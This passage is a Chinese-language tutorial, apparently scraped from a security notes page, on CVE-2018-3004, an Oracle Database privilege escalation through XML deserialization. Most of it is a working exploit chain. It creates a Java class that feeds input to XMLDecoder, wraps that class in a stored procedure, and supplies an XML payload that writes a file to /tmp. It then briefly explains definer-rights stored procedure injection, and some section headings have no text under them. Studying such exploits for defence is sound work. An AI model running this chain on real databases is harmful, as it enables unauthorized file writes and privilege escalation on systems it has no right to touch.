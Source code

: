 **CVE-2018-3004 Oracle Database Privilege Escalation via XML Deserialization**

利用反序列化操作执行命令或者写文件。但是由于 Oracle JVM 实现了基于细粒度策略的安全性来控制对 OS 和文件系统的访问，因此该方法将不起作用。从低权限帐户执行此过程会导致错误。因此我们可以通过 XML 反序列化来进行文件的读写

1、创建 java 反序列化的 class 类

```
CREATE OR REPLACE AND COMPILE JAVA SOURCE named ExploitDecode AS 
import java.io.*;
import java.beans.*;
public class ExploitDecode{
  public static void input(String xml) throws InterruptedException, IOException {      
    XMLDecoder decoder = new XMLDecoder(new ByteArrayInputStream(xml.getBytes()));      
    Object object = decoder.readObject();      
    System.out.println(object.toString());      
    decoder.close();
    }
}
```

2、创建 java 存储过程

```
CREATE OR REPLACE PROCEDURE exploitdecode (p_xml IN VARCHAR2) IS language java name 'ExploitDecode.input(java.lang.String)';
```

3、通过 xmldecode 反序列化写入文件

```
BEGIN exploitdecode('<java class="java.beans.XMLDecoder" version="1.4.0" >
<object class="java.io.FileWriter">
                      <string>/tmp/111</string>
                      <boolean>True</boolean>
                      <void method="write">
                         <string>11</string>
                      </void>
                      <void method="close" />
                   </object>
                </java>');
                END;
```

**Oracle 存储过程（函数）注入**

默认情况下，存储过程是以定义者的权限执行的，这可以认为是以下的存储过程注入漏洞产生的原因，如果想让存储过程以调用者的权限的执行，需要在创建存储过程时，显示的声明 AUTHID CURRENT_USER。

**定义者权限执行**

**调用者权限执行**

删除存储过程 DROP PROCEDURE 存储过程名字

删除函数 DROP FUNCTION 函数名字

删除触发器 DROP TRIGGER 触发器名字
